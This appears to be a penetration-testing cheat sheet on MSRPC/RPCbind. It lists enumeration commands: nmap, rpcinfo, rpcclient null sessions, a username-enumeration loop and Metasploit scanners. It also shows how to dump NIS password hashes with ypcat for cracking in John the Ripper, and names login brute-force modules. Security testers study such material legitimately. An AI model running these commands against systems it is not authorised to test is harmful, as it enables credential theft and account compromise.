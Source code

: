 # MSRPC / RPCbind

## :information\_source: Introduction

#### [Remote Procedure Call](https://datatracker.ietf.org/doc/html/rfc5531)

**A**n interprocess communication technique. The Full form of RPC is Remote Procedure Call. It is used for client-server applications. RPC mechanisms are used when a computer program causes a procedure or subroutine to execute in a different address space, which is coded as a normal procedure call without the programmer specifically coding the details for the remote interaction.

This procedure call also manages low-level transport protocol, such as User Datagram Protocol, Transmission Control Protocol/Internet Protocol etc. It is used for carrying the message data between programs.

### Types of RPC

Three types of RPC are:

* Callback RPC
* Broadcast RPC
* Batch-mode RPC

### RPC Architecture

RPC architecture has mainly five components of the program:

1. **Client**
2. **Client Stub**
3. **RPC Runtime**
4. **Server Stub**
5. **Server**

![](<../../.gitbook/assets/image (282) (1) (1) (1) (1) (1) (1).png>)

## :ballot\_box\_with\_check: Checklist

* [ ] Check for Null sessions
* [ ] Quert RPC locator
* [ ] Test [NFS service ](nfs.md)if you found any
* [ ] Try exploiting NIS if you found any
* [ ] Try bypassing port mapper filter

## Enumeration

```
nmap -sSUC -p111 [ip]
rpcinfo domain.local
nmap --script bitcoinrpc-info, srpc-enum,rpcap-info,rpc-grind,rpcinfo [ip]
auxiliary/scanner/dcerpc/tcp_dcerpc_auditor
auxiliary/scanner/dcerpc/endpoint_mapper
auxiliary/scanner/dcerpc/hidden 
auxiliary/gather/windows_deployment_services_shares
auxiliary/scanner/dcerpc/windows_deployment_services 
auxiliary/scanner/nessus/nessus_xmlrpc_ping
auxiliary/scanner/dcerpc/management
```

## Check for Null user sessions

```
rpcclient -N -U "" [IP address]
rpcclient $> lookupnames [user] → check username
rpcinfo -p [ip]
```

## automate user enumeration with a list of usernames

a simple loop to check RPC users in bash

```
for u in $(cat users.txt); do rpcclient -U "" 192.168.13.26 -N --command="lookupnames $u"; done |grep "User: 1"
```

### metasploit

```
use auxiliary/scanner/dcerpc/endpoint_mapper use auxiliary/scanner/dcerpc/hidden use auxiliary/scanner/dcerpc/management use auxiliary/scanner/dcerpc/tcp_dcerpc_auditor
```

## rpcdump

rpcdump and ifids Windows utilities query both the RPC locator and specific RPC endpoints to list IFID values.

```
D:\rpctools> rpcdump [-p port] 192.168.189.1
IfId: 5a7b91f8-ff00-11d0-a9b2-00c04fb6e6fc version 1.0
Annotation: Messenger Service
UUID: 00000000-0000-0000-0000-000000000000
Binding: ncadg_ip_udp:192.168.189.1[1028]
```

## NIS

If you find the service `ypbind`running:

![](https://github.com/carlospolop/hacktricks/raw/master/.gitbook/assets/image%20\(233\).png)

You can try to exploit it. Anyway, first of all you will **need to guess the NIS "domain name"** of the machine (when NIS is installed it's configured a "domain name") and **without knowing this domain name you cannot do anything**.

Upon obtaining the NIS domain name for the environment (example.org in this case), use the ypwhich command to ping the NIS server and ypcat to obtain sensitive material. You should feed encrypted password hashes into John the Ripper, and once cracked, you can use it to evaluate system access and privileges.

```
root@kali:~# apt-get install nis
root@kali:~# ypwhich -d example.org 192.168.10.1
potatohead.example.org
root@kali:~# ypcat –d example.org –h 192.168.10.1 passwd.byname
tiff:noR7Bk6FdgcZg:218:101::/export/home/tiff:/bin/bash 
katykat:d.K5tGUWCJfQM:2099:102::/export/home/katykat:/bin/bash 
james:i0na7pfgtxi42:332:100::/export/home/james:/bin/tcsh 
florent:nUNzkxYF0Hbmk:199:100::/export/home/florent:/bin/csh 
dave:pzg1026SzQlwc:182:100::/export/home/dave:/bin/bash 
yumi:ZEadZ3ZaW4v9.:1377:160::/export/home/yumi:/bin/bash
```

| **Master file**  | **Map(s)**                  | **Notes**                         |
| ---------------- | --------------------------- | --------------------------------- |
| /etc/hosts       | hosts.byname, hosts.byaddr  | Contains hostnames and IP details |
| /etc/passwd      | passwd.byname, passwd.byuid | NIS user password file            |
| /etc/group       | group.byname, group.bygid   | NIS group file                    |
| /usr/lib/aliases | mail.aliases                | Details mail aliases              |

## Bypass Filtered Portmapper port

{% embed url="https://medium.com/@sebnemK/how-to-bypass-filtered-portmapper-port-111-27cee52416bc" %}

## Login Brute Force

```
auxiliary/scanner/msf/msf_rpc_login
auxiliary/scanner/nessus/nessus_rest_login 
auxiliary/scanner/nessus/nessus_xmlrpc_login
rpcap-brute.nse
deluge-rpc-brute.nse
rpcap-brute.nse
nessus-xmlrpc-brute.nse
```


